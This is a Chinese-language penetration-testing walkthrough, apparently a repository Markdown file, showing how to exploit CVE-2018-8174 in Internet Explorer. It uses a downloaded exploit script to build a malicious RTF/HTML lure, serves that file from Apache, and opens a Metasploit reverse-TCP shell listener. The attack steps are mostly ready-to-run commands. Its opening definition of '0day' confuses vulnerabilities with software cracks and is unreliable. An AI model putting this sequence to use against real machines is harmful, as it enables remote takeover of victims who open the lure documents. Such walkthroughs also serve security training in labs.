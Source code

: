 # 利用 0day 双杀-java 环境-宏感染-安卓客户端渗透

#### 利用 0DAY 漏洞 CVE-2018-8174 获取 shell

> ​	0DAY 漏洞 最早的破解是专门针对软件的，叫做 WAREZ，后来才发展到游戏，音乐，影视等其他
> 内容的。0day 中的 0 表示 zero，早期的 0day 表示在软件发行后的 24 小时内就出现破解版本，现在我
> 们已经引申了这个含义，只要是在软件或者其他东西发布后，在最短时间内出现相关破解的，都可以叫
> 0day。 0day 是一个统称，所有的破解都可以叫 0day。
>
> ​	CVE-2018-8174 漏洞影响最新版本的 IE 浏览器及使用了 IE 内核的应用程序。用户在浏览网页或打
> 开 Office 文档时都可能中招，最终被黑客植入后门木马完全控制电脑。微软在 2018 年 4 月 20 日早上
> 确认此漏洞，并于 2018 年 5 月 8 号发布了官方安全补丁，对该 0day 漏洞进行了修复，并将其命名为
> CVE-2018-8174。

###### 1、安装 CVE-2018-8174_EXP

使用 Xshell 上传 CVE-2018-8174 的 EXP 到 Kali

```
 unzip CVE-2018-8174_EXP-master.zip
```

###### 2、生成恶意 html 文件

```
cd CVE-2018-8174_EXP-master/
ls

		CVE-2018-8174.py README.md

python CVE-2018-8174.py -u http://192.168.1.53/exploit.html -o hack.rtf -i 192.168.1.53 -p 4444
```

```
参数说明：
-u：URL 地址，恶意 html 文件 hack.html 的访问地址
-o：生成文档
-i：监听地址
-p：监听端口
```

恶意 html 文件生成成功：

###### 3、将恶意 html 文件移动到网站根目录

```
cp exploit.html /var/www/html/
systemctl start apache2		#启动 apache2 服务
```

###### 4、新打开一个终端 CTRL+SHIFT+T，生成 MSF 监听

```
msfconsole
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/shell/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 192.168.1.53
msf6 exploit(multi/handler) > set LPORT 4444
msf6 exploit(multi/handler) > exploit
```
